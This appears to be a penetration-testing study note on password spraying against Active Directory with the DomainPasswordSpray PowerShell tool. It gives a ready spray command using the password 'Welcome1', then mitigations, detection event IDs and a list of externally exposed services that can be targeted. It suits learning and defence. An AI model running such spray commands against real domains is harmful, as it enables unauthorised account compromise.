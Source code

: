 Tool:
- https://github.com/dafthack/DomainPasswordSpray

Flags:
-UserList
-Password
-OutFile

```shell-session
Import-Module .\DomainPasswordSpray.ps1
```
```shell-session
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

## Mitigations
- MFA
- Restricting access
- Reducing impact of successful exploitation
- Password hygiene

## Detection
- event ID 4625: An account failed to log on
- event ID 4771: Kerberos pre-authentication failed

## External Password Spraying
- Microsoft 365
- Outlook Web Exchange
- Exhcange Web Access
- Skype for Business
- Linc Server
- Microsoft Remote Desktop Services (RDS) Portals
- Citrix portals using AD authentication
- VDI implementations using AD authentication such as VMware Horizon
- VPN portals (Citrix, SonciWall, OpenVPN, Fortinet, etc. that use AD authentication
- Custom web applications that use AD authentication
